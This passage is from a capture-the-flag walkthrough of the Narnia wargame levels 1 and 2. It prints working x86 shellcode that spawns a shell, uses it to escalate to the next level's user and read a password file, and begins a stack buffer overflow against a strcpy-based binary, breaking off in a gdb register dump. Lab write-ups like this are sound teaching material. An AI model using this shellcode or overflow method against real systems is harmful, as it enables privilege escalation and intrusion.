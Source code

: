 So here we need to set an environment variable named `EGG` to something we want executed. We can't just pass `/bin/bash` as it's going to call whatever we give it as a function. Ideally we want a shell, so what we need in this case is the shellcode to do just that.

```sourceCode
narnia1@melinda:/narnia$ export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
[password]
```

## Level 02

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

The biggest clues here are lines 6 and 12. Copying user supplied data into a fixed sized array without any bound checking is always asking for trouble. `narnia2` binary also runs as setuid narnia3, which leads us to believe we will be able to control the stack and get it to execute a payload of our choosing. Of course this will be a shellcode to drop us into a shell.

First we need to work out how much data is needed to overwrite `EIP`. We can do this by trial and error, or we can use a pattern generator. I am going to use my [pattern generator](https://github.com/Svenito/exploit-pattern) instead of metasploit's one. I'll create a payload big enugh to overflow the buffer and then check the value of `EIP`. Pasting that back into the pattern generator will tell us at what location in the pattern the string occurs.

```sourceCode
local $] ./pattern.py 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

```sourceCode
narnia2@melinda:/narnia$ gdb -q narnia2
Reading symbols from narnia2...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Starting program: /games/narnia/narnia2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
(gdb) info reg
eax            0x0  0
ecx            0x0  0
edx            0xf7fcb898   -134432616
```